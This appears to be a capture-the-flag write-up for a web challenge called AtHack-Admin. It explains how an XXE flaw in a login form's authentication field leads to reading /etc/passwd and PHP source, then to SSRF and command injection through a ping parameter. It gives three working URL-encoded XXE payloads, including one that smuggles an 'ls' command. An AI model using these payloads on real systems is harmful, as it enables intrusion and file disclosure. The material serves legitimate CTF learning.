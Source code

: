 # AtHack-Admin
Write up for web challenge #AtHack

## حل التحدي بالعربي في تويتري
https://twitter.com/omarxtream/status/1466683905520680961

## Write up in english:

The attacker enters the home page but finds nothing and after guessing the files, he will find two pages
The first is the login.php page, which contains a text field called authentication
Which contains XXE and through it the attacker will be able to get the LFI and then he will be able to read the source code for the login.php page and the admin.php page

authentication=<%3fxml+version%3d"1.0"%3f><!DOCTYPE+root+[<!ENTITY+test+SYSTEM+'file%3a///etc/passwd'>]><root><user>%26test%3b</user></root>

authentication=<%3fxml+version%3d"1.0"%3f><!DOCTYPE+root+[<!ENTITY+test+SYSTEM+'php://filter/convert.base64-encode/resource=admin.php'>]><root><user>%26test%3b</user></root>

And he will find that the admin needs to send a request through the localhost
There is also an ip parameter that enters the system function with the ping command
Through this, the attacker will try to get a RCE

authentication=<%3fxml+version%3d"1.0"%3f><!DOCTYPE+root+[<!ENTITY+test+SYSTEM+'php://filter/convert.base64-encode/resource=http://localhost/admin.php?ip=123%250als'>]><root><user>%26test%3b</user></root>
